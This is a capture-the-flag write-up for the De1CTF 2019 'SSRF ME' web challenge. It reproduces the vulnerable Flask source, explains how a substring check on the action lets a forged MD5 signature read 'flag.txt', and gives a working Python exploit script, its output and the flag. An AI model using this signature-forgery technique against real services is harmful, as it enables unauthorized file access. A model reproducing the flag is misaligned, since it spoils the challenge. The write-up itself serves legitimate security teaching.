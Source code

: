 ```yaml
---
title: "SSRF ME - De1CTF 2019"
date: 2019-08-06T22:59:36+02:00
tags:
    - "De1CTF"
    - "Web"
    - "SSRf"
draft: false
---
```


> SSRF ME TO GET FLAG.  
> http://139.180.128.86

For this challenge we are provided with a url that returns the following python
code:
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

It's the code from the Flask app that is running on the website.

Basically it's a simple web app that allows us to do two things by using the
`action` parameter:

* scan: writes the content of a file located on the server in a file called
`result.txt`

* read: returns the content of the `result.txt` file

The `scan` and `read` actions are invoked by making a request to the `/De1ta`
endpoint.


The problem is that we need to provide a cookie called `sign` that is
remotely checked and must be in this format:
```
md5(secret_key + param + action)
```
`param` is used in conjuction with the `scan` action to indicate which file to
read.

We can see at the beginning of the python script that the `secret_key` is
generated using `os.urandom(16)`, so there's no way to bruteforce it.

Let's analyze the `/geneSign` endpoint.
It allows us to generate a signature using 'scan' as action:
```
md5(secret_key + param + 'scan')
```

The vulnerability in this application is located in the `Exec` function.
Instead of checking if the passed action is equal to `scan` or `read`, it
checks if the action string contains the `scan` and `read` strings.
We can exploit this by making a request to `geneSign` with `flag.txtread` as
`param`, so that the following signature is generated:

```
secret_key + 'flag.txtread' + 'scan'
```
and then use the signature with `scan` and `read` actions to read the flag.
Here's the python code to do that:

```python
#!/usr/bin/env python3
import requests
import urllib

def getSign(param, action):
    params = {'param': param}
    cookies =  {'action': action}
    r = requests.get("http://192.168.43.204:8080/geneSign", params=params, cookies=cookies)
    return r.text.strip().replace('\n', '')

action = 'readscan'
sign = getSign('flag.txtread', '')

params = {'param': 'flag.txt'}
cookies = {'sign': sign, 'action': action}

r = requests.get("http://192.168.43.204:8080/De1ta", params=params, cookies=cookies)
print(r.text)
```

Let's run it:
```
$ ./solve.py
{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}\n"}
```

### Flag
```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
```
